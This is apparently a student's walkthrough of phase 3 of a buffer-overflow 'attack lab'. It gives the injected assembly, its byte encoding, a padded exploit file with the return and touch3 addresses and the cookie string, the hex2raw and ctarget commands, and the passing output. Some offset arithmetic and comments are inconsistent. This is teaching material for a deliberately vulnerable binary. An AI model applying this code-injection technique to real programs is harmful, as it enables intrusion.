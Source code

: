 Phase 3 is kinda similar to phase to except that we are trying to call the function touch3 and have to pass our cookie to it as string

In the instruction it tells you that if you store the cookie in the buffer allocated for getbuf, the functions hexmatch and strncmp
may overwrite it as they will be pushing data on to the stack, so you have to be careful where you store it.

We will be storing the cookie after touch3.

So let's pass the address for the cookie to register $rdi

The total bytes before the cookie are `buffer + 8 bytes for return address of rsp + 8 bytes for touch3` 

`0x18 + 8 + 8 =  28` (40 Decimal)  

Grab the address for rsp from phase 2: `0x55620cd8`
Add 0x28
`0x55620cd8 + 0x28 = 0x55620D00`
Now you need this assembly code, same steps generating the byte representation

```
    movq $0x55620D00,%rdi /* %rsp + 0x18 */
    retq
```

The byte representation is as follows:
```
Disassembly of section .text:

0000000000000000 <.text>:
   0:	48 c7 c7 00 0d 62 55 	mov    $0x55620d00,%rdi
   7:	c3                   	retq   
```

Now, grab the bytes from the above code and start constructing your exploit string. Create a new file named phase3.txt and here is what mine looks like:
```
48 c7 c7 00 0d 62 55 c3 /*rsp + 28 the address where the cookie is present*/
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 /*padding*/
d8 0c 62 55 00 00 00 00 /* return address ($rsp)*/
7f 19 40 00 00 00 00 00 /* touch3 address -- get this from the rtarget dump file */
34 33 34 62 34 62 37 30 /* cookie string*/
```
If you look at the last row above, the cookie is in hex format, so you need to take your cookie and convert in to text format.
Go to http://www.unit-conversion.info/texttools/hexadecimal/ and put in your cookie without '0x' and it should give you the text format or you could look up ascii equivalent on your machine


Last step is to generate the raw eploit string using the hex2raw program.

`./hex2raw < phase3.txt > raw-phase3.txt`

Finally, you run the raw file

`./ctarget < raw-phase3.txt`

Response looks like below

```
Cookie: 0x434b4b70
Type string:Touch3!: You called touch3("434b4b70")
Valid solution for level 3 with target ctarget
PASS: Sent exploit string to server to be validated.
NICE JOB!
```
